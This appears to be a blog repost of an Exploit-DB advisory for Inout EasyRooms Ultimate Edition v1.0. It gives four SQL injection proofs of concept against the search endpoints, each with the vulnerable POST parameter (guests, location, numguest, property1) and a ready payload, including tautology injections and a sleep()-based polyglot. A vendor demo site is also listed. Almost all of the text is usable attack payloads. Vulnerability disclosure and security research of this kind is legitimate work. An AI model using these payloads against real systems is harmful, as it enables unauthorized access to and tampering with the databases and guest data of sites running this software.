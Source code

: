 ```yaml
---
layout:     post
title:      "Inout EasyRooms Ultimate Edition - SQL Injection"
date:       2019-04-02 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Inout EasyRooms Ultimate Edition - SQL Injection
# Date: 29.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.inoutscripts.com/products/inout-easyrooms/
# Demo Site: http://inout-easyrooms.demo.inoutscripts.net/
# Version: v1.0
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/search/rentals
Vulnerable Parameter: guests (POST)
Payload: guests=-1' OR 3*2*1=6 AND 00046=00046 --

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/search/searchdetailed
Vulnerable Parameter: location (POST)
Payload:  location=-1' OR 3*2*1=6 AND 000603=000603 or 'UeNQc30f'='

----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/search/searchdetailed
Vulnerable Parameter: numguest (POST)
Payload:  numguest=-1' OR 3*2*1=6 AND 000232=000232 --


----- PoC 4: SQLi -----

Request: http://localhost/[PATH]/search/searchdetailed
Vulnerable Parameter: property1 (POST)
Payload:
property1=(select(0)from(select(sleep(0)))v)/*'+(select(0)from(select(sleep(0)))v)+'"+(select(0)from(select(sleep(0)))v)+"*/
            
